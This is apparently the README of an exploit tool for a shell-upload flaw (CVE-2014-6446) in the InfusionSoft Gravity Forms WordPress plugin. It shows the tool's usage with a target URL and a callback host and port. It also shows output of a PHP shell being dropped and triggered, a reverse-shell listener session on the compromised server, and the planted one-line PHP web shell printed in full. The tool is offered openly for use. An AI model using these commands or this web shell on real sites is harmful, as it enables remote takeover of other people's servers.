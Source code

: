 # InfusionSoft Gravity Forms Shell Upload
This is an exploit for one of the most [facepalmworthy exploits ever][advisory], hence, I had to add it to the reportoire. Just... Just read the advisory. You will die laughing.

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the 
"payload.php". You also must specify a callback host and port, along with the URL to the vulnerable Wordpress installation.

Example Use:
```
xrl:~$ python2 delusions.py http://192.168.0.15/wordpress/ back_python.php 192.168.0.9 1337

▓█████▄ ▓█████  ██▓     █    ██   ██████  ██▓ ▒█████   ███▄    █   ██████ 
▒██▀ ██▌▓█   ▀ ▓██▒     ██  ▓██▒▒██    ▒ ▓██▒▒██▒  ██▒ ██ ▀█   █ ▒██    ▒ 
░██   █▌▒███   ▒██░    ▓██  ▒██░░ ▓██▄   ▒██▒▒██░  ██▒▓██  ▀█ ██▒░ ▓██▄   
░▓█▄   ▌▒▓█  ▄ ▒██░    ▓▓█  ░██░  ▒   ██▒░██░▒██   ██░▓██▒  ▐▌██▒  ▒   ██▒
░▒████▓ ░▒████▒░██████▒▒▒█████▓ ▒██████▒▒░██░░ ████▓▒░▒██░   ▓██░▒██████▒▒
 ▒▒▓  ▒ ░░ ▒░ ░░ ▒░▓  ░░▒▓▒ ▒ ▒ ▒ ▒▓▒ ▒ ░░▓  ░ ▒░▒░▒░ ░ ▒░   ▒ ▒ ▒ ▒▓▒ ▒ ░
 ░ ▒  ▒  ░ ░  ░░ ░ ▒  ░░░▒░ ░ ░ ░ ░▒  ░ ░ ▒ ░  ░ ▒ ▒░ ░ ░░   ░ ▒░░ ░▒  ░ ░
 ░ ░  ░    ░     ░ ░    ░░░ ░ ░ ░  ░  ░   ▒ ░░ ░ ░ ▒     ░   ░ ░ ░  ░  ░  
   ░       ░  ░    ░  ░   ░           ░   ░      ░ ░           ░       ░  
Exploit for InfusionSoft Gravity Forms Shell Upload. Version: 20150427.1
{+} Using target URL of: http://192.168.0.15/wordpress//wp-content/plugins/infusionsoft/Infusionsoft/utilities/code_generator.php
{+} Our shell is at: http://192.168.0.15/wordpress//wp-content/plugins/infusionsoft/Infusionsoft/utilities/pwn.php
{*} Sending Backconnect to 192.168.0.9:1337...
{*} Sending our payload...
{+} Using 192.168.0.9:1337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$
```

Listener (I suggest using the [tcp-pty-shell-handler][shellhandle]):
```
xrl:~$ python2 /tmp/testing/python-pty-shells/tcp_pty_shell_handler.py -b 0.0.0.0:1337
Got root yet?
Linux htp 3.18.0-kali3-amd64 #1 SMP Debian 3.18.6-1~kali2 (2015-03-02) x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
<ntent/plugins/infusionsoft/Infusionsoft/utilities$ ls
code_generator.php  make_phpstorm_property_hints.php  pwn.php
<ntent/plugins/infusionsoft/Infusionsoft/utilities$ cat pwn.php
<?php @assert(filter_input(0,woot,516)); ?><ntent/plugins/infusionsoft/Infusionsoft/utilities$ :)^C
<ntent/plugins/infusionsoft/Infusionsoft/utilities$ exit
exit
quitting, cleanup
xrl:~$ 
```

## ASCIICAST
If you want, check out the [Asciicast demo][asciicast]. The ASCII art got a bit fucked this time around due to term resizing.
[![asciicast](https://asciinema.org/a/19283.png)](https://asciinema.org/a/19283)

## Licence
Licenced under the [WTFPL][wtfpl]

[advisory]: http://research.g0blin.co.uk/cve-2014-6446/
[asciicast]: https://asciinema.org/a/19283
[wtfpl]: http://www.wtfpl.net/
[shellhandle]: https://github.com/infodox/python-pty-shells
